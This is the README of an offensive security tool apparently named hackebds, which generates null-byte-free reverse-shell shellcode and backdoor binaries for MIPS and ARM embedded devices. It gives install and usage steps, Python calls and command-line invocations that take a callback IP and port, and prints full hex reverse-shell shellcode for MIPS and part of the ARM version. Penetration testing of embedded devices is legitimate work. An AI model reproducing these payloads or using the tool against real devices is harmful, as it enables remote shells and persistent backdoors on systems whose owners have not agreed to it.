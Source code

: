 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time
**pip install hackebds**
```
pip install hackebds
....
Defaulting to user installation because normal site-packages is not writeable
Collecting hackebds
  Downloading hackebds-0.0.3-py2-none-any.whl (11 kB)
Installing collected packages: hackebds
Successfully installed hackebds-0.0.3
>>> import hackebds
>>> dir(hackebds)
['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__path__', 'aarch64', 'arm', 'extract_shellcode', 'mips']
>>> 
```
You can view the function through the dir function

![iShot2022-04-29_13.14.39.png](./img/iShot2022-04-29_13.14.39.png)

```
 'Corefile', 'armebv5_backdoor', 'armebv5_reverse_sl', 'armebv7_backdoor', 'armebv7_reverse_sl', 'armelv5_backdoor', 'armelv5_reverse_sl', 'armelv7_backdoor', 'armelv7_reverse_sl', 'asm', 'atexception', '
```
#### Instructions for use

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
>>> mips.mipsel_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xee\xa3\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
[+] No NULL byte shellcode for hex(len is 226):
\x04\x40\x24\xe0\x7f\x70\xa0\xe3\x28\x70\x4d\xe5\x07\x70\x27\xe0\x27\x70\x4d\xe5\x07\x70\x27\xe0\x26\x70\x4d\xe5\x01\x70\xa0\xe3\x25\x70\x4d\xe5\x02\x70\xa0\xe3\x2c\x70\x4d\xe5\x2b\x40\x4d\xe5\x11\x70\xa0\xe3\x2a\x70\x4d\xe5\x5c\x70\xa0\xe3\x29\x70\x4d\xe5\x14\x40\x4d\xe5\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x1b\x40\x4d\xe2\x2c\x50\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x4f\xf0\x02\x01\x08\x46\x4f\xf0\x01\x01\x82\xea\x02\x02\x4f\xf0\xc8\x07\x07\xf1\x51\x07\x01\xdf\x06\x46\x29\x46\x4f\xf0\x10\x02\x07\xf1\x02\x07\x01\xdf\x30\x46\x81\xea\x01\x01\x4f\xf0\x3f\x07\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x30\x46\x01\xf1\x01\x01\x01\xdf\x20\x46\x81\xea\x01\x01\x82\xea\x02\x02\x03\xb4\x69\x46\x4f\xf0\x0b\x07\x01\xd
```
**This is the usage list for generating the backdoor file of the corresponding schema**
```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackebds import *
>>> mips.mipsel_backdo	or("127.0.0.1",4444)
mipsel_backdoor is ok in current path ./
>>> arm.armelv7_backdoor("127.0.0.1",4444)
backdoor_armelv7 is ok in ./
>>> arm.armelv7_reverse_sl("127.0.0.1",4444)
``` 
## install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

## Instructions for use for "install (2)"

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```
![image-20220428161403858](./img/image-20220428161403858.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```

![image-20220428161757170](./img/image-20220428161757170.png)

**You can view tool information with -h**

![image-20220428161847829](./img/image-20220428161847829.png)


## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## One-click build environment

To be added
